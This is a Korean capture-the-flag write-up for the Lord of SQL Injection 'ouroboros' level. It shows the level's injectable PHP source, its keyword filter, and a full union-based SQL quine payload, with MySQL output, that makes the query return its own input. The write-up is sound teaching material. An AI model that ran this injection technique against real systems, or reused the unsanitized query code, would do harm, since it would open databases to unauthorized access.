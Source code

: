 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - ouroboros 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제도 테이블이 비어 있었다.  

근데 `pw`를 추출하래...  

어떻게 하라는지 고민하다가 웹짱해커님께 물어봐서 겨우 풀었다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------------
query : select pw from prob_ouroboros where pw=''
----------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|rollup|join|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_ouroboros where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("ouroboros");
  highlight_file(__FILE__);
?>
```

첨에는 문제 보자마자 `오?` 했다.  

그래서 신나게 `?pw=1' or pw like '%'%23`을 입력 해 보았다.  

그런데 아무런 결과도 나오지 않았다.  

보아하니 얘도 테이블을 비워 둔 것 같았다.  

그럼.. 내가 입력 한 값이 곧 결과값이 되어야 하는데, 이걸 도저히 어떻게 해야하는지 감이 안잡혔다.  

`?pw=1' union select '1`을 입력하면, `Pw : 1`이 출력되서 `뭔가 union을 써야 하는구나...`는 알겠는데 어떻게 해야 내가 입력한 값과 출력 값이 같게 만들 수 있는지를 모르겠더라.  

그래서 또 다시 `웹 짱 해커`님한테 물어봤다.  

그랬더니 힌트로 `Quine`라는 것을 알려 주었다.  

> [위키백과 - Quine](https://en.wikipedia.org/wiki/Quine_(computing))  

> [SQLi Quine](https://www.shysecurity.com/post/20140705-SQLi-Quine)

인터넷 찾아보니 이 두 가지가 제일 도움이 되었다.  

즉, `Quine`은 `자기 자신의 소스코드를 출력하는 것`을 의미한다고 한다.  

이번 문제에 딱 맞는 컨셉이다.  

그래서 위의 링크 중에 위키백과에서 아래와 같은 쿼리문을 가져와 테스트 해 보았다.  

```
SELECT REPLACE(REPLACE('SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine;
```

그 결과 내가 입력한 내용이 그대로 결과 값으로 나온 것을 확인할 수 있었다.  

```
mysql> SELECT REPLACE(REPLACE('SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine; 
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Quine                                                                                                                                                                                                      |
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| SELECT REPLACE(REPLACE('SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine |
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.00 sec)
```

이 것을 바탕으로 문제를 풀기 위해 `SELECT`를 `a' union SELECT`로 변경했다.  

그랬더니 `'`와 `"`이 내가 입력한 값과 조금씩 달라졌다.  

왜 바뀌는지 도저히 모르겠어서 `REPLACE` 함수를 기준으로 쿼리문을 잘라서 비교 해 보았다.  

쿼리를 살펴 보면 `$`가 있는데, 앞의 두 `$` 자리에 마지막의 `SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine`가 `REPLACE` 되어 들어가게 된다.  

그 과정에서 `"`가 `'`로 바뀌게 되는데, 나는 쿼리의 시작 부분에서 `a' union SELECT`가 필요하므로, 처음에 `a"`로 입력하고 이 후 `REPLACE` 함수를 실행하는 과정에서 `a'`로 바뀌도록 했다.  

어차피 뒤의 `a" union SELECT` 부분은 실제로 쿼리가 실행되는 부분이 아니어서 상관없기 때문이다.  

그 결과 만들어진 쿼리는 아래와 같다.  

```
select pw from user where pw='a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine;
```

내가 내 서버에서 테스트 한 쿼리인데 너무 복잡해서 알아보기가 힘든 것 같다.  

```
mysql> select pw from user where pw='a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine;
+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| pw                                                                                                                                                                                                                                    |
+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine |
+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.01 sec)
```

쿼리를 실행 한 결과, 내가 입력 한 쿼리가 그대로 결과 값으로 나온 것을 확인할 수 있다.  

드디어 이를 바탕으로 아래와 같은 쿼리스트링을 넘겨주었다.  

```
?pw=a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine%23',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine%23') AS Quine%23
```

이 복잡한 쿼리를 통해 드디어 문제를 풀 수 있었다.  

```php
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
query : select pw from prob_ouroboros where pw='a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine#',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine#') AS Quine#'
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Pw : a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine#',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine#') AS Quine#
OUROBOROS Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|rollup|join|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_ouroboros where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("ouroboros");
  highlight_file(__FILE__);
?>
```

`OUROBOROS Clear!!`
